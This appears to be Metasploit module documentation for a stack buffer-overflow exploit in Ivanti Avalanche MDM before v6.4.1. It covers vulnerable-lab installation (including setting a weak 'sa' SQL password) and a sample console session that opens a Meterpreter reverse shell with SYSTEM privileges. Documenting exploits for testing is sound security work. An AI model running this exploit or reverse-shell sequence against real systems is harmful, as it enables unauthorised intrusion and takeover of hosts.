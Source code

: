 ## Vulnerable Application

Ivanti Avalanche powered by Wavelink is a mobile device management system. Network security
features allow you to manage wireless settings (including encryption and authentication),
and apply those settings on a schedule throughout the network. Software distribution features
allow you to schedule software distribution to specific devices from the Avalanche Console.
Avalanche also provides tools for managing alerts and reports.

This module exploits a buffer overflow condition in Ivanti Avalanche MDM versions before `v6.4.1`.
An attacker can send a specially crafted message to the Wavelink Avalanche Manager,
which could result in arbitrary code execution with the `NT/AUTHORITY SYSTEM` permissions.
This vulnerability occurs during the processing of 3/5/8/100/101/102 item data types.
The program tries to copy the item data using `qmemcopy` to a fixed size data buffer on stack.
Upon successful exploitation the attacker gains full access to the target system.

The original analysis and the vulnerability discovery is done by the Tenable.
Check [here](https://www.tenable.com/security/research/tra-2023-27) for public advisory.

## Installation
The software requires a version of MSSQL Server to be installed. The installation
instructions use MSSQL Server 2012, but 2016 and 2017 worked for my setup. Ensure that
`SQL Server and Windows Authentication Mode` is selected as the default for
server authentication. This can either be done at installation or via
SQL Server Management Studio, available from https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms.

1. Open SQL Server Management Studio and connect to the instance
2. Right click on the instance and select `Properties`
3. Click the `Security` page
4. Underneath `Server Authentication`, select `SQL Server and Windows Authentication Mode` and `Ok`.
5. Open SQL Server Configuration Manager -> SQL Server Network Configuration -> Protocols for MSSQLSERVER -> TCP/IP
Change from Disable to Enabled.
6. SQL Server Configuration Manager -> SQL Server Services -> Stop all Services -> Start just the SQL Server (MSSQLSERVER) service.
7. Go back to SQL Server Management Studio.
8. Security -> Logins -> sa -> Right click -> Select Properties -> Status -> Toggle Login to Enabled -> Ok
9. Execute the following SQL statement in SQL Server Management Studio: `ALTER LOGIN sa WITH PASSWORD = 'theSAUser123';`
10. You should now be able to run the installer and set the hostname to `127.0.0.1`,
set the username to `sa`, and the password to `theSAUser123`.
11. Now you can proceed to installing the Ivanti Avalanche MDM software.

For installing the vulnerable Ivanti Avalanche MDM version follow the steps below,
1. To obtain the vulnerable versions of the MDM setup, first create a customer account at
[Ivanti](https://success.ivanti.com/customers/Community_RegStep1_Page?lp=register) (trial license is sufficient)
2. Navigate [here](https://www.wavelink.com/Download-Avalanche_Mobile-Device-Management-Software/)
and download any version **below** `v6.4.1`
3. Follow the installation steps.

After these steps, the MDM service should be accessible on port 1777.
**Note: If MDM port is not listening or unresponsive, try restarting the 'Wavelink Avalanche Manager' service.**

In case the above doesn't work, instructions for installing Ivanti Avalanche can be found
[here](https://forums.ivanti.com/s/article/Best-Known-Method-for-installing-Avalanche-6-x-using-MSSQL-Server-2008-R2-Express-DB-or-2012-Express-Advanced)

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/misc/ivanti_avalanche_mdm_bof`
3. Do: `set RHOST [IP]`
4. Do: `run`
5. You should get a session.

## Options

## Scenarios

```
msf > use exploit/windows/misc/ivanti_avalanche_mdm_bof
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(windows/misc/ivanti_avalanche_mdm_bof) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf exploit(windows/misc/ivanti_avalanche_mdm_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(windows/misc/ivanti_avalanche_mdm_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.109:1777 - Connecting to target...
[*] 192.168.56.109:1777 - Sending payload...
[*] Sending stage (175686 bytes) to 192.168.56.109
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.109:49967) at 2023-08-25 19:15:42 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```
